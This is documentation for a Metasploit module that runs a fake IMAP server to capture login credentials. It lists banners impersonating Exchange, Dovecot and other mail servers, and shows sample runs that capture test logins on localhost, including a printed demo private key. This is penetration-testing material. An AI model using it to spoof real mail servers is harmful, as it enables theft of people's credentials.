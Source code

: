 This module creates a mock IMAP server which accepts credentials.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/imap```
  3. Do: ```run```

## Options

  **BANNER**

  The Banner which should be displayed.  Default is `IMAP4`.
  Some notable banners to emulate:

  * `Dovecot ready.`
  * `IMAP 4 Server (IMail 9.23)`
  * `mailserver Cyrus IMAP4 v2.2.13-Debian-2.2.13-19 server ready`
  * `Welcome to Binc IMAP v1.3.4 Copyright (C) 2002-2005 Andreas Aardal Hanssen at 2018-11-08 11:17:35 +1100`
  * `The Microsoft Exchange IMAP4 service is ready.`
  * `Microsoft Exchange Server 2003 IMAP4rev1 server versino 6.5.7638.1 (domain.local) ready.`

  **SSL**

  Boolean if SSL should be used, making this Secure IMAP.  Secure IMAP is typically run on port 993.  If `SSLCert` is not set, a certificate
  will be automatically generated.  Default is `False`.

  **SSLCert**

  File path to a combined Private Key and Certificate file.  If not provided, a certificate will be automatically
  generated.  Default is ``.

## Scenarios

### IMAP Emulating Microsoft Exchange with Telnet Client

Server:

```
msf > use auxiliary/server/capture/imap 
msf auxiliary(server/capture/imap) > set banner "The Microsoft Exchange IMAP4 service is ready."
banner => The Microsoft Exchange IMAP4 service is ready.
msf auxiliary(server/capture/imap) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(server/capture/imap) > 
[*] Started service listener on 0.0.0.0:143 
[*] Server started.
[*] IMAP LOGIN 127.0.0.1:42972 metasploit@documentation.com / rapid7#1
```

Client:

```
root@kali:~# telnet 127.0.0.1 143
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
* OK The Microsoft Exchange IMAP4 service is ready.
01 LOGIN metasploit@documentation.com rapid7#1
quit
Connection closed by foreign host.
```

### Secure IMAP with Self-Signed Certificate and Alpine client

Server:

```
msf > openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
[*] exec: openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.................................................................................................+++++
...................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
msf > cat key.pem certificate.pem > selfsigned.pem
[*] exec: cat key.pem certificate.pem > selfsigned.pem

msf > cat /root/metasploit-framework/selfsigned.pem
[*] exec: cat /root/metasploit-framework/selfsigned.pem

-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDAXME8r2vEUH7B
Kelkt9iC4tTozOq0wJAjsACLCDcNoD4hUH16wy4Uf4SD3ZsEaL0YA0GU2ZgOo2ud
USBpOo8h9FEGtRrAAeSl7Z3XaBnuB7UmVMrnUVZxlaYi84JcopcTOs6KZ5VXddia
PEkE5G3jaCwOIqHk+c8Qk5b43HQbkj2jr4051gHeWP0UgBEy1TVPKtoywtyK1b5H
QhX7MYVNge8lQL/xJnBrjMDqIQqc41lCI73EPCuGZ7zB06xBsgyW/DTgQkprX+Qe
DVKtz8ZChLSqSwmz/5yFttRyZlDuXA7Kozhdj8obRAjzK/gKj89WsX/s2KUbq2GY
pdMpLh7/AgMBAAECggEBALCtQKpdMCzqBdGijgP8u3ZToluDwlprtregco8/51iz
gf0VMXqsg8k96dc3laZyEKNackSlqfxf6npeRdeAenAkNrtjYYNS+c/Qs7Vhntc5
6w6euJHG6g9+9E2LvIMarolx7LvAMbFXwq6+ig5dQ/Sm/DerZWiqbJ18ASDnUhjz
G1Y8/Idy4WutPZD/0JEQ+5VnHb+Mt3a7yYKhDsmUEzVh5xoWJab9dwfwCnoOb32T
oLOLLsqUbAK8ZiQ4MwkbGJ5kw8H24wVmI+7BbuRacW2tIIt6Z+vEoLdof0TsuJWo
87ZbCYYeTysIgBIdLNRiGGxz43SOqBBGh8sreyyACdECgYEA6Ubs1Klw3TViABke
1JqkWelZi6mtsyUHJt/eChjMzgg5vGVuYB/sCc+BObjETbfnvuV0Ub4cxbUCF3wL
qvrJNTd+yU7JJ7IP63B2lS3aNlAsLRb59SkjDYyym1OeUAHKkGp8oICSq96X3Xtu
KUZnDdh2UuoMzmEoAHoDoc+SC/cCgYEA0xmQ+qDJ4l3JRH/IPMPe9XD90WFJFhvF
GzGSM8qqpg6N2xhlzQiM6+I4EEh9iNnCOYmvw9leGNRpIjFjAhv5ntlG3LudAEpd
Ml/hhrfRB7KOopiqzK7oVCUv5f5rmvYdL4c2FC+VGxnhWUP6MARUHag/1DgszMs7
wSlwcbKi8zkCgYBMvRc1khPdwSze6WSZ/dEo/rmFVykb8Idcw3Iwkh31fQE5N4jK
uFWWmJtjGKQDCQeEZckRBuBCLZxli1nvQhakmf/sSy2jEFFqWxG3W2EYUuFlZ9SM
UJ8GWw16SVSf7ybqwQ0EY6dcQJpmsq73hwBprpamCfZygcV9+qVtOnJJ2wKBgBKY
ZPH+6em70zfqfawEoQZD3sfr5vFAnvtHQZa4WpHoJEzReF44S5mXwtKEYDKG5BoH
a+k3o5dSVrSBXzRXXITGpPxatnjJFC6UzZv9YzdnXjMqeZkwKx0GbZK396id13JR
Wc0rZ9oMTJJ9b3N9Xh+Cq6S5EhE0Md5RFSuezcXZAoGBAJOMfjbwobOCYm6K8PyV
p89gbnDOj7FHCg2JPa9/dii6pBRHXeUfORp00GfN0oAjjJo14SmOw58zh1mF1VcA
BQhTK9TO4GXIEZDiYt9EmiH1VO58I8vUecBcbelirumGOP+dBiBy/C8YzFJRhAis
eAGSi8F+qcJaS3VDRGEC9zcK
-----END PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIDazCCAlOgAwIBAgIUMlkpAG2tXodgLSrIf/xOuA9z8PwwDQYJKoZIhvcNAQEL
BQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUxITAfBgNVBAoM
GEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDAeFw0xODExMDkwMTI3MTRaFw0xOTEx
MDkwMTI3MTRaMEUxCzAJBgNVBAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEw
HwYDVQQKDBhJbnRlcm5ldCBXaWRnaXRzIFB0eSBMdGQwggEiMA0GCSqGSIb3DQEB
AQUAA4IBDwAwggEKAoIBAQDAXME8r2vEUH7BKelkt9iC4tTozOq0wJAjsACLCDcN
oD4hUH16wy4Uf4SD3ZsEaL0YA0GU2ZgOo2udUSBpOo8h9FEGtRrAAeSl7Z3XaBnu
B7UmVMrnUVZxlaYi84JcopcTOs6KZ5VXddiaPEkE5G3jaCwOIqHk+c8Qk5b43HQb
kj2jr4051gHeWP0UgBEy1TVPKtoywtyK1b5HQhX7MYVNge8lQL/xJnBrjMDqIQqc
41lCI73EPCuGZ7zB06xBsgyW/DTgQkprX+QeDVKtz8ZChLSqSwmz/5yFttRyZlDu
XA7Kozhdj8obRAjzK/gKj89WsX/s2KUbq2GYpdMpLh7/AgMBAAGjUzBRMB0GA1Ud
DgQWBBRezbFZBumaJ/MViZqqbllYrPomMzAfBgNVHSMEGDAWgBRezbFZBumaJ/MV
iZqqbllYrPomMzAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQAd
Smkooa2nhdDdu3/uHX8vhDC0ns5qotgd0YKGkj/QyzNP+ruP1cyq/q67zand/Eq8
gF+lHk+pX8GM0WvI7ypgrK956YCdmh3DULBFDu5RxVABFWrGedfNy6TKLTps0PXR
9mdB/HK0Msr6Mh/o5PkUhb1fx0T3NUwF1EFte7Nsq10Mq+hYVnEqDeEGMlb73frJ
729tCjNpFoLGdlgEcAEFelAujV0w4oj35CE2Fh3b+4wupDiulfgg9E7FtvS9xK0P
l/m7Kka0n7lXnKo+IFSJ0dTooBvwaV7+4tEGuHxWJsNO+2aex9qFCuDUdBFxyWyK
uBVlsY6F7EjTfWpxwyVP
-----END CERTIFICATE-----
msf > use auxiliary/server/capture/imap 
msf auxiliary(server/capture/imap) > set ssl true
ssl => true
msf auxiliary(server/capture/imap) > set sslcert /root/metasploit-framework/selfsigned.pem
sslcert => /root/metasploit-framework/selfsigned.pem
msf auxiliary(server/capture/imap) > set srvport 993
srvport => 993
msf auxiliary(server/capture/imap) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(server/capture/imap) > 
[*] Started service listener on 0.0.0.0:993 
[*] Server started.
[+] IMAP LOGIN 127.0.0.1:59024 "johndoe" / "p455w0rd"
```

Clients:

```
root@kali:~# cat ~/.muttrc
set spoolfile="imaps://johndoe:p455w0rd@127.0.0.1/INBOX"
set folder="imaps://127.0.0.1/INBOX"
set record="=Sent"
set postponed="=Drafts"

root@kali:~# mutt
```

The user is prompted about the invalid certificate, and the client gets stuck at "Logging in...", however
it doesn't matter since the credentials have already been sent.
